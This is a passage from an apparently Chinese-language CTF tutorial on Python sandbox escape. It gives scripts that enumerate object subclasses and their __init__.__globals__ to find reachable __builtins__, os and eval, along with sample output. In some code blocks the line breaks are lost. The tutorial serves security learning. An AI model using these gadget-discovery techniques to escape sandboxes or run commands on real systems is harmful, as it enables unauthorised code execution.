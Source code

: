 ```
我们除了知道了linecache、os可以获取到命令执行的函数以外，我们前面还提到了一个`__builtins__`内建函数，在python的内建函数中我们也可以获取到诸如eval等执行命令的函数。于是我们可以改动一下脚本，看看python2还有哪些payload可以用：

补充一下关于`__builtin__`和`__builtins__`的区别：传送门

```
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():#print itemtry:if item.__init__.__globals__.keys():if '__builtins__' in  item.__init__.__globals__.keys():print(num,item,'__builtins__')if  'os' in  item.__init__.__globals__.keys():print(num,item,'os')if  'linecache' in  item.__init__.__globals__.keys():print(num,item,'linechache')num+=1except:num+=1
```

结果如下：

```
(59, <class 'warnings.WarningMessage'>, '__builtins__')
(59, <class 'warnings.WarningMessage'>, 'linechache')
(60, <class 'warnings.catch_warnings'>, '__builtins__')
(60, <class 'warnings.catch_warnings'>, 'linechache')
(61, <class '_weakrefset._IterationGuard'>, '__builtins__')
(62, <class '_weakrefset.WeakSet'>, '__builtins__')
(72, <class 'site._Printer'>, '__builtins__')
(72, <class 'site._Printer'>, 'os')
(77, <class 'site.Quitter'>, '__builtins__')
(77, <class 'site.Quitter'>, 'os')
(78, <class 'codecs.IncrementalEncoder'>, '__builtins__')
(79, <class 'codecs.IncrementalDecoder'>, '__builtins__')
```

我们可以看到在这些能够通过初始化函数来获取到全局变量值的，（很多都不能获取到全局变量的值，可以自行去尝试一下）我们都可以索引到内建函数。在内建函数中可以根据需要利用import导入库、eval导入库执行命令等等操作，这里的操作空间就很广了。（然而实际的CTF中沙盒溢出题呢？在它的内建函数往往会被阉割，这个时候就需要各种Bypass操作）

**python3**

python3和python2原理都是一样的，只不过环境变化有点大，比如python2下有file而在python3下已经没有了，所以是直接用open。查阅了相关资料发现对于python3的利用主要索引在于`__builtins__`，找到了它我们就可以利用其中的eval、open等等来执行我们想要的操作。这里改编了一个递归脚本（能力有限，并不够完善..）

```
def search(obj, max_depth):visited_clss = []visited_objs = []def visit(obj, path='obj', depth=0):yield path, objif depth == max_depth:returnelif isinstance(obj, (int, float, bool, str, bytes)):returnelif isinstance(obj, type):if obj in visited_clss:returnvisited_clss.append(obj)#print(obj) Enumerates the objects traversedelse:if obj in visited_objs:returnvisited_objs.append(obj)# attributesfor name in dir(obj):try:attr = getattr(obj, name)except:continueyield from visit(attr, '{}.{}'.format(path, name), depth + 1)# dict valuesif hasattr(obj, 'items') and callable(obj.items):try:for k, v in obj.items():yield from visit(v, '{}[{}]'.format(path, repr(k)), depth)except:pass# itemselif isinstance(obj, (set, list, tuple, frozenset)):for i, v in enumerate(obj):yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)yield from visit(obj)num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():try:if item.__init__.__globals__.keys():for path, obj in search(item,5):if obj in ('__builtins__','os','eval'):print('[+] ',item,num,path)num+=1except:num+=1
```

**PS：**python2没有自带协程。因此需要在python3下执行。对python3的可利用payload进行测试。

​该脚本并不完善，**payload不能直接用，请自行测试修改！**，obj自行补充。另外pyhon执行命令的方式还有subprocess、command等等，上述脚本只给出了三个关键字的**模糊测试**。

​脚本跑出来`bulitins`以后还会继续深入递归（继续索引`name`等获取的是字符串值），请自行选择简短的payload即可。

​控制递归深度，挖掘更多payload？

_总之，这里只是提供一个想法，希望能有抛砖引玉效果？有兴趣的读者可以自行多去尝试。网上也没有查阅到更多关于如何深入挖掘的资料。希望懂的大佬能教教小弟。_

```